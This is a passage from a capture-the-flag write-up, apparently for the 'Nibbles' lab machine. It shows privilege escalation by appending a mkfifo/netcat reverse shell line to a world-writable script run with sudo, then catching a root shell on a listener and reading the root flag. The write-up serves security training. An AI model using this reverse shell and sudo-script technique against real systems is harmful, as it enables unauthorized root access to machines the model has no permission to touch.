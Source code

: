     # unset any variable which system may be using



But it doesn't really matter, since the script is world-writable:



    nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -l
    total 4
    -rwxrwxrwx 1 nibbler nibbler 80 Jun 24 07:27 monitor.sh



In fact, if you are on the free, you're very likely to find this file
completely overwritten with other people's privesc.

Rather than bluntly overwriting the script, we'll append our shell to
the end:



    nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
    < /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.154 8083 > /tmp/f" >> monitor.sh
    nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh





    root@kali# nc -lnvp 8083
    listening on [any] 8083 ...
    connect to [10.10.15.154] from (UNKNOWN) [10.10.10.75] 52184
    # id
    uid=0(root) gid=0(root) groups=0(root)



### root.txt

Now it's easy to grab the root flag:



    # cd /root
    # wc -c root.txt
    33 root.txt
    # cat root.txt
    b6d745c0...








